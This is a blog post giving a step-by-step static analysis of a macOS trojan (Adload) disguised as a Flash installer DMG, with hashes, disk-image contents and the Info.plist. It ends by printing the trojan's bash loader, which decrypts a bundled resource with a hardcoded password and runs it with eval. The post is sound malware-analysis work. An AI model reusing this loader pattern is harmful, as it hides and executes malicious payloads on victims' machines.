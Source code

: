 ```yaml
---
layout: post
title: Adload Sample, Part 1: Static Analysis
---
```

Happy New Year! Excuse my absense, while I have been away taking studying for GCFA and enjoying the holidays. Now that's all over I'm back to show you some static analysis of a macOS trojan I found today. Hope you enjoy and please send any questions, or comments to ragingroosterrem@gmail.com. Thanks!

### Tools Used:
- macOS High Sierra virtualized with Virtualbox
- Bash Commands: bash, cat, cd, clamscan, codesign, file, find, hdiutil, ls, md5, openssl, plutil, shasum
- VirusTotal

### The Story, YAFFD
I was googling a security tool called moloch + threat hunting and clicked on a link to what I thought was a security blog containing some juciy information. It was the third link, on the first page of results mind you! Instead of being served up some info to make my day better, I was redirected to Yet Another Fake Flash Downloader (YAFFD). Okay, I'd preffer to do some malware analysis anyway.

<img src="{{ site.baseurl }}/images/YAFFD.png">

### Analysis

##### After I clicked the pretty button and downloaded the .dmg, I fired up my bash shell and went to my downloads folder to see what gift I was given.
```
$ cd ~/Downloads

$ ls
AdobeFlashPlayerInstaller.dmg

$ file AdobeFlashPlayerInstaller.dmg 
AdobeFlashPlayerInstaller.dmg: zlib compressed data

$ md5 AdobeFlashPlayerInstaller.dmg 
MD5 (AdobeFlashPlayerInstaller.dmg) = 8c5a97b8234af7f41e03b4421904a8ff

$ shasum AdobeFlashPlayerInstaller.dmg 
b972667995d2ca1d205c3be4d57fc80814834970  AdobeFlashPlayerInstaller.dmg

$ codesign -dvvv AdobeFlashPlayerInstaller.dmg 
AdobeFlashPlayerInstaller.dmg: code object is not signed at all
```
###### Hey! Wouldn't Adobe sign this?

#### Let's tear into this .dmg like a candy bar.
```
$ hdiutil attach AdobeFlashPlayerInstaller.dmg 
Checksumming Protective Master Boot Record (MBR : 0)…
Protective Master Boot Record (MBR :: verified   CRC32 $7510EE46
Checksumming GPT Header (Primary GPT Header : 1)…
 GPT Header (Primary GPT Header : 1): verified   CRC32 $366ED316
Checksumming GPT Partition Data (Primary GPT Table : 2)…
GPT Partition Data (Primary GPT Tabl: verified   CRC32 $70831B84
Checksumming  (Apple_Free : 3)…
                    (Apple_Free : 3): verified   CRC32 $00000000
Checksumming disk image (Apple_HFS : 4)…
..............................................................................
          disk image (Apple_HFS : 4): verified   CRC32 $B3A8FFCC
Checksumming  (Apple_Free : 5)…
                    (Apple_Free : 5): verified   CRC32 $00000000
Checksumming GPT Partition Data (Backup GPT Table : 6)…
GPT Partition Data (Backup GPT Table: verified   CRC32 $70831B84
Checksumming GPT Header (Backup GPT Header : 7)…
  GPT Header (Backup GPT Header : 7): verified   CRC32 $00709B9F
verified   CRC32 $7647ACE4
/dev/disk1          	GUID_partition_scheme          	
/dev/disk1s1        	Apple_HFS                      	/Volumes/Player

$ cd /Volumes/Player/

$ find .
.
./.5692438210.png
./.DS_Store
./Player_210.app
./Player_210.app/Contents
./Player_210.app/Contents/_CodeSignature
./Player_210.app/Contents/_CodeSignature/CodeDirectory
./Player_210.app/Contents/_CodeSignature/CodeRequirements
./Player_210.app/Contents/_CodeSignature/CodeRequirements-1
./Player_210.app/Contents/_CodeSignature/CodeResources
./Player_210.app/Contents/_CodeSignature/CodeSignature
./Player_210.app/Contents/Info.plist
./Player_210.app/Contents/MacOS
./Player_210.app/Contents/MacOS/Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg
./Player_210.app/Contents/Resources
./Player_210.app/Contents/Resources/210
./Player_210.app/Contents/Resources/app5692438210.icns
./Player_210.app/Contents/Resources/enc
```
###### Looks similar to most other .dmg directory structures.

###### Let's take a look at the .dmg's Property List (plist) which stores some valuable app data.
```
$ cd /Volumes/Player/Player_210.app/

$ plutil -p Info.plist 
{
  "CFBundleExecutable" => "Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg"
  "CFBundleIconFile" => "app5692438210.icns"
  "CFBundleIdentifier" => "com.Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg"
  "CFBundleInfoDictionaryVersion" => "6.0"
  "CFBundleName" => "PlayerInstaller"
  "CFBundlePackageType" => "APPL"
  "CFBundleShortVersionString" => "1.0"
  "CFBundleSupportedPlatforms" => [
    0 => "MacOSX"
  ]
  "CFBundleVersion" => "5692438210"
  "LSMinimumSystemVersion" => "10.9"
  "NSHumanReadableCopyright" => "Copyright © 2017 All rights reserved."
  "NSPrincipalClass" => "NSApplication"
}
```
> Looks like "Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg" is the binary executed by the .dmg.

##### Let's inspect the binary.
```
$ cd MacOS/

$ ls
Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg

$ file Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg 
Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg: Bourne-Again shell script text executable, ASCII text
```
###### Hey! That's a shell script, not a Macho. But, that's not too extraordinary. 

##### Let's see what it does.
```bash
$ cat Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg 
#!/bin/bash
cd "$(dirname "$BASH_SOURCE")"
fileDir="$(dirname "$(pwd -P)")"
eval "$(openssl enc -base64 -d -aes-256-cbc -nosalt -pass pass:5692438210 <"$fileDir"/Resources/enc)"
```
